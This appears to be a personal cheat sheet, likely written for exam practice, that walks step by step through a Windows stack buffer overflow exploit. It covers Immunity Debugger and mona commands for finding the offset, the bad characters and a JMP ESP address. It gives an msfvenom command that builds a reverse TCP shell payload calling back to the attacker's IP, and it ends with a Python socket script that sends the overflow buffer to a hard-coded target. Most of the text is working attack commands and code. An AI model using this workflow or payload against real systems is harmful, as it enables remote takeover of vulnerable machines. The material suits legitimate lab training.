

# Bufferoverflow
## Setup & Configuration
1. Run Immunity debugger as administrator
2. Run the below command to setup Immunity Debugger

`!mona config -set workingfolder c:\mona\`

3. Run application manually
4. Check Taskmanager for the process ID
5. Check netstat for the corresponding PID to see what port it is running on

## Manual method
1. Generate payload on linux machine if it doesn't crash program just create a bigger payload. 

`msf-pattern_create -l 5000`

2. Make a connection to the application (nc) and paste the payload

3. Find the offset using mona script
  
`!mona findmsp -distance 5000` 




4. Generate a payload with the below script to verify the offset. Replace '1000' with the value of the offset. 

`python -c "print('A' * 1000 + 'BBBB')"`

5. Find the bad characters
  1. Input below command into mona
  
  `!mona bytearray -b "\x00"`
  2. Run bad.py 
  
  `python /root/bad.py`

  3. Copy output of bad.py into the payload variable in exploit.py and rerun it once program has been restarted in Immunity Debugger
  4. Set <address> to the ESP Address and run in Immunity Debugger
  
  `!mona compare -f C:\mona\bytearray.bin -a <address>`

  5. Copy bad chars and add to the mona byte array command and run it (Remember if 2 in a row likely only the first is bad so remove it first then try again)
  
  `!mona bytearray -b "\x00\x01"`

  6. Remove bad chars from the payload in exploit.py
  7. Restart program in Immunity Debugger then run exploit again
  8. Recheck for bad chars and redo process until all are gone. 
  
  `!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`

6. Find the jump point be sure to add all bad chars. Can be run either with program running or crashed state. 

`!mona jmp -r esp -cpb "\x00"`

7. Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

8. Generate exploit be sure to add all found bad characters. 

`msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c`

9. Add payload the exploit.py

`!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"`
\x00\x07\x2e\xa0

```python
import socket

ip = "192.168.3.233"
port = 7138

offset = 340
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = ""
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:                                                                                                                                                  
  s.connect((ip, port))                             
  print("Sending evil buffer...")                    
  s.send(bytes(buffer + "\r\n", "latin-1"))         
  print("Done!")                                            
except:
  print("Could not connect.")
```
    `msf-pattern_offset -l 5000 -q $num`